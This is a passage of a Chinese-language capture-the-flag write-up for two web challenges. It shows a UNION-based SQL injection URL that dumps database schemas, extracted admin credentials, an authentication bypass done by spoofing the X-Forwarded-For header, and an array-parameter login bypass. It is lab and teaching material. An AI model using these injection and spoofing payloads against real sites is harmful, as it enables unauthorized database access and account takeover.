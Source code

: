```
http://question9.erangelab.com/news.php?newsid=2 union select 1,SCHEMA_NAME,3 from information_schema.SCHEMATA  limit 1,1%23

referer：
http://question9.erangelab.com/index.php
```

注入得到admin的号密
```
ctfphp
	>admin ; news
		>id,name,pass ; id,title,content

ctfadmin
```

admin
administrat0r

然后找到robots.txt
```
robots.txt

# robots.txt generated at http://tool.chinaz.com/robots/ 
User-agent: *
Disallow: 
Disallow: /xnucactfwebadmin/
Disallow: /dbconfig/
Sitemap: http://domain.com/sitemap.xml
```

这里巨坑埋下了，这里的后台没有任何返回，然后后来改题却没有公告

```
http://121.195.186.238/xnucactfwebadmin/logincheck.php

传入username&password&submit，然后修改xff为8.8.8.8就好了

flag{U2NCF8yaniq5WirEE2wumYIfbrxcEiU2}
```

# OneWayIn #

How can I get in。http://question11.erangelab.com/

```
http://question11.erangelab.com/index.php
```

做这题的时候感觉自己是个智障...进去居然没有发现源码，但无意中过了判断...

```
0_username[]=admin
&0_pwd[]=admin’
&submit=Submit
```
